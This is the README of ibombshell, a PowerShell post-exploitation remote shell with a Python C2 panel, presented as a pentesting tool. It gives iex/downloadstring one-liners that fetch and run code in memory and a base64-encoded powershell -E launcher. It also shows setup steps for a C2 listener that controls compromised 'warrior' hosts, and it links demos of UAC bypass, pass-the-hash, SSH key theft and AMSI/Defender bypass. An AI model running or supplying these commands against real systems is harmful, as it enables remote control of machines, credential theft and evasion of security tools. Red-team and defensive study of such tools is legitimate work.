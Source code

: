 ![Supported Python versions](https://img.shields.io/badge/python-3.6-blue.svg?style=flat-square)
![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **ibombshell - Dynamic Remote Shell**

```
      ,--.!,    _ ____                  __   _____ __         ____  
   __/   -*-   (_) __ )____  ____ ___  / /_ / ___// /_  ___  / / /  
 ,d08b.  '|`  / / __  / __ \/ __ `__ \/ __ \\__ \/ __ \/ _ \/ / /  
 0088MM      / / /_/ / /_/ / / / / / / /_/ /__/ / / / /  __/ / /  
 `9MMP'     /_/_____/\____/_/ /_/ /_/_.___/____/_/ /_/\___/_/_/  

 [+] Starting the console...
 [*] Console ready!
```

**ibombshell** is a tool written in Powershell that allows you to have a prompt at any time with post-exploitation functionalities (and in some cases exploitation). It is a shell that is downloaded directly to memory providing access to a large number of pentesting features. These functionalities can be downloaded directly to memory, in the form of a Powershell function. This form of execution is known as *everywhere*.

In addition, *ibombshell* provides a second execution mode called *Silently*, so the pentester can execute an instance of ibombshell (called *warrior*). The compromised computer will be connected to a C2 panel through HTTP. Therefore, it will be possible to control the warrior and be able to load functions in memory that help the pentester. This is happening whithin the post-exploitation phase.

# Prerequisities

To run *ibombshell everywhere* it is mandatory to have PowerShell 3.0 or higher. For operating systems other than Windows you can read more about this in the [PowerShell GitHub](https://github.com/PowerShell/PowerShell) - *PowerShell for every system!*.

To run the *ibombshell silently mode* you need python 3.6 and some python libraries. You can install this with:

```[python]
cd ibombshell\ c2/
pip install -r requirements.txt
```

**Note**: ibombshell C2 works in **python 3.X**. Make sure you run a pip relative to this version.

# Usage

ibombshell has two execution modes:

## ibombshell everywhere

To load ibombshell simply run on PowerShell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/ElevenPaths/ibombshell/master/console’)
```

Now you can run the downloaded ibombshell console running:

```[powershell]
console
```

### ibombshell everywhere in isolated environments

If you need to use ibombshell in isolated environments, you must prepare your computer first in a networked environment. Load all the functions you will need, and use savefunctions to save them in the Windows registry.

Now you can use this base 64 code to get ibombshell:

```[powershell]
powershell.exe -E "JABwAGEAdABoACAAPQAgACcAaABrAGMAdQA6AFwAcwBvAGYAdAB3AGEAcgBlAFwAYwBsAGEAcwBzAGUAcwBcAGkAYgBvAG0AYgBzAGgAZQBsAGwAXABjAG8AbgBzAG8AbABlACcAOwAgAHQAcgB5ACAAewAJAGkAZgAoAHQAZQ
BzAHQALQBwAGEAdABoACAAJABwAGEAdABoACkAIAB7ACAAJABjAG8AbgBzAG8AbABlACAAPQAgACgARwBlAHQALQBDAGgAaQBsAGQASQB0AGUAbQAgACQAcABhAHQAaAApAC4ATgBhAG0AZQA7ACAAYwBkACAAaABrAGMAdQA6
ADsAIAAkAG4AYQBtAGUAIAA9ACAAJABjAG8AbgBzAG8AbABlAC4AcwBwAGwAaQB0ACgAIgBcACIAKQBbAC0AMQBdADsAIAAkAGMAbwBkAGUAIAA9ACAAKAAoAEcAZQB0AC0ASQB0AGUAbQAgAC0AUABhAHQAaAAgACIAJABjAG
8AbgBzAG8AbABlACIAIAB8ACAAUwBlAGwAZQBjAHQALQBPAGIAagBlAGMAdAAgAC0ARQB4AHAAYQBuAGQAUAByAG8AcABlAHIAdAB5ACAAUAByAG8AcABlAHIAdAB5ACkAIAB8ACAARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUA
YwB0ACAAewBOAGUAdwAtAE8AYgBqAGUAYwB0ACAAcABzAG8AYgBqAGUAYwB0ACAALQBQAHIAbwBwAGUAcgB0AHkAIABAAHsAIgBwAHIAbwBwAGUAcgB0AHkAIgA9ACQAXwA7ACAAIgBWAGEAbAB1AGUAIgAgAD0AIAAoAEcAZQ
B0AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAtAFAAYQB0AGgAIAAiACQAYwBvAG4AcwBvAGwAZQAiACAALQBOAGEAbQBlACAAJABfACkALgAkAF8AfQB9ACkALgBWAGEAbAB1AGUAOwAgACQAYwBvAGQAZQAgAHwAIABv
AHUAdAAtAHMAdAByAGkAbgBnACAAfAAgAGkAZQB4ADsAIABjADoAOwAgAGMAbwBuAHMAbwBsAGUAOwB9AH0AYwBhAHQAYwBoAHsAdwByAGkAdABlAC0AaABvAHMAdAAgACQARQByAHIAbwByAFsAMABdAH0A"
```

## ibombshell silently mode

This version allows you to run the ibombshell console and remotely control it from the C2 panel created in python. To run this version, first you must launch the console process in powershell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/ElevenPaths/ibombshell/master/console’)
```

On ibombshell C2 path, prepare the C2:

```[python]
python3 ibombshell.py
```

And create the listener where the warriors will connected:

```[ibombshell]
iBombShell> load modules/listener.py
[+] Loading module...
[+] Module loaded!
iBombShell[modules/listener.py]> run
```

The default listener port is 8080. Finally you can launch the console in silently mode on the host to get remote control:

```[powershell]
console -Silently -uriConsole http://[ip or domain]:[port]
```

# ibombshell C2 scheme

The basic operation of the ibombshell control panel follows the following scheme:

```[ascii]
        ibombshell                 C2
            |                      |
            |    newibombshell     |
            +--------------------->| --+ register
            |                      |<--+ from IP
            |    get functions     |
            |   and instructions   |
            +--------------------->|
            |                      |
            |    send functions    |
            |   and instructions   |
execute +-- |<---------------------+
        +-->|                      |
            |       results        |
            +--------------------->|
            |                      |
```

# Docker

We have created a docker container with everything you need to make it works. Run this command from Dockerfile location.

```[bash]
sudo docker build -t "ibombshell" .
sudo docker run -it ibombshell
```

# Example videos

Some example videos...

### *iBombShell: PoC Warrior + Bypass UAC + Pass the hash*

[![iBombShell: PoC Warrior + Bypass UAC + Pass the hash](https://img.youtube.com/vi/v4c8MsOPTyA/0.jpg)](http://www.youtube.com/watch?v=v4c8MsOPTyA)

### *iBombShell: macOS*

[![iBombShell: PoC de uso desde macOS](https://img.youtube.com/vi/DQlWGPS1CB4/0.jpg)](http://www.youtube.com/watch?v=DQlWGPS1CB4)

### *ibombshell: Extracting Private SSH Keys on Windows 10*

[![ibombshell: Módulo para extracción de claves privadas SSH en Windows 10](https://img.youtube.com/vi/v7iXEg9cTNY/0.jpg)](http://www.youtube.com/watch?v=v7iXEg9cTNY)

### *iBombShell: PoC savefunctions*

[![iBombShell: PoC savefunctions](https://img.youtube.com/vi/QM0HufCYOEk/0.jpg)](https://www.youtube.com/watch?v=QM0HufCYOEk)

### *ibombshell - Silently bypass UAC Environment Injection*

[![ibombshell - Modo silencioso para el bypass UAC Environment Injection](https://img.youtube.com/vi/XrWM2gcXo3w/0.jpg)](https://www.youtube.com/watch?v=XrWM2gcXo3w)

### *iBombShell - Mocking Trusted Directory*

[![iBombShell - Mocking Trusted Directory](https://img.youtube.com/vi/6iCFS4FkedM/0.jpg)](https://www.youtube.com/watch?v=6iCFS4FkedM)

### *iBombShell - DLL generation*
[![iBombShell - DLL Generation](https://img.youtube.com/vi/I03klvk-DXo/0.jpg)] (https://www.youtube.com/watch?v=I03klvk-DXo)


### *iBombShell - AMSI & Windows Defender Bypass*
[![iBombShell - AMSI & Windows Defender Bypass](https://img.youtube.com/vi/wCBLG3CfWMY/0.jpg)] (https://www.youtube.com/watch?v=wCBLG3CfWMY)


# License

This project is licensed under the GNU General Public License - see the LICENSE file for details

# Contact

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

This software doesn't have a QA Process. This software is a Proof of Concept.

If you have any problems, you can contact:

<pablo@11paths.com> - *Ideas Locas CDO - Telefónica*

<alvaro.nunezromero@11paths.com> - *Laboratorio Innovación - ElevenPaths*

<josue.encinargarcia@telefonica.com> - *Ideas Locas CDO - Telefónica*

For more information please visit [https://www.elevenpaths.com](https://www.elevenpaths.com).
